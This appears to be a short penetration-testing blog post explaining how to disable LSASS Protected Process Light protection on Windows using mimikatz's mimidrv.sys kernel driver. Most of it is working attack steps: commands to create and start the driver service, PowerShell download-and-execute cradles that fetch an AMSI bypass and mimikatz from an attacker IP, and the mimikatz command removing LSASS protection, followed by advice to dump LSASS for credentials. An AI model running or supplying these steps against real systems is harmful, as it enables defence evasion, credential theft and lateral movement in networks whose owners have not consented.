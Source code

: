 ```yaml
---
layout: post
title: Disabling LSASS protection with mimidrv.sys
---
```

![](/images/2021-1-1-mimidrv/0.png)


During your Active directory attack, once you have elevated your privilege to Admin, the first thing we can do to laterally move is to dump hashes from LSASS.

**what if the LSASS is protcted.?**

If LSASS protection is enabled we cannot tamper with the process.

if LSASS is marked as Protected Process Light (PPL) then protection is turned on !

***PS: You can use a powershell script such as HostRecon.ps1 to find out if protection is enabled.***

In this post we will take a look at how we can run mimikatz to do this by the driver MIMIKATZ uses to accomplish this !

```
mimidrv.sys
```
Reference: [Mimidrv.sys](https://github.com/gentilkiwi/mimikatz/releases) [Mimikatz](https://github.com/EmpireProject/Emp...e-Mimikatz.ps1])

First thing to do is to upload the driver file into disk, fortunately, defender does not flag this as malicious !


Now we will create as service and load the driver

```
sc create mimidrv binPath= C:\tmp\mimidrv.sys type= kernel start= demand
```

Now we will start the service

```

sc start mimidrv
```

With the driver running, we can instruct it to turn off the LSASS PPL protection.

In order to do that, we will first disable AMSI and load mimikatz:

```
Step 1: Start powershell
Step 2: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/AMSI.txt') | IEX
Step 3: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/mimikatz.txt') | IEX
Step 4: Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`"" 


```

![](/images/2021-1-1-mimidrv/2.png)

With the driver running combined with the above command, we have successfully disabled the protection !!

Now we can use any method to dump the lSASS process and download it offline and use tools such as "MIMIKATZ" or "PYPYKATZ" to extract the credentials
